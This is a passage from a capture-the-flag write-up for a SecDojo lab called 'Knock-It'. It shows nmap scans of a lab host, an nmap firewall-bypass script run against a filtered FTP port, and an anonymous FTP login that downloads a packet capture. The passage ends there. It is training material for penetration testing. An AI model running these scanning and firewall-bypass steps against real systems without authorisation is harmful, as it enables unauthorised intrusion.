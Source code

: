 # secdojo-23jan
SecDojo 23jan CTF writeups.

# Knock-It

![image](https://user-images.githubusercontent.com/48088579/151042148-acab8117-1cc0-400e-87de-209a5c9f3243.png)


### Lab Description
The purpose of this lab is to learn how to perform network packet analysis in order to get more intel about the hidden network infrastructure, detect misconfigurations, and most importantly, how you can make use of this intel to get access to systems and escalate your privileges.


## Unacknowledged

IP: 172.16.4.74

### Nmap Scan: nmap -sC -sV 172.16.4.74

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-25 19:04 UTC
Nmap scan report for 172.16.4.74
Host is up (0.0013s latency).
Not shown: 997 closed ports
PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4f:d3:06:c9:29:81:07:68:3a:c1:2b:49:12:39:c6:19 (RSA)
|   256 f8:fe:33:8d:d9:d5:97:3b:14:08:18:10:4f:3a:19:5c (ECDSA)
|_  256 c2:d5:c2:60:62:0d:cd:a9:83:01:92:b6:dd:be:d6:a2 (ED25519)
80/tcp open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.29 seconds

```

### FTP 21/tcp Port Knocking: nmap -p21 -sV -sC 172.16.4.74

```bash
nmap --script firewall-bypass 172.16.4.74
```

### FTP Enumaration:

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-25 19:10 UTC
Nmap scan report for 172.16.4.74
Host is up (0.00031s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0            5930 Aug 28  2019 login.pcap
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.16.4.244
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.74 seconds
```

### FTP Anonymous Login: ftp 172.16.4.74

```bash
Connected to 172.16.4.74.
220 (vsFTPd 3.0.3)
Name (172.16.4.74:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            5930 Aug 28  2019 login.pcap
226 Directory send OK.
ftp> get login.pcap
local: login.pcap remote: login.pcap
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for login.pcap (5930 bytes).
226 Transfer complete.
5930 bytes received in 0.00 secs (3.2539 MB/s)
ftp> 
```
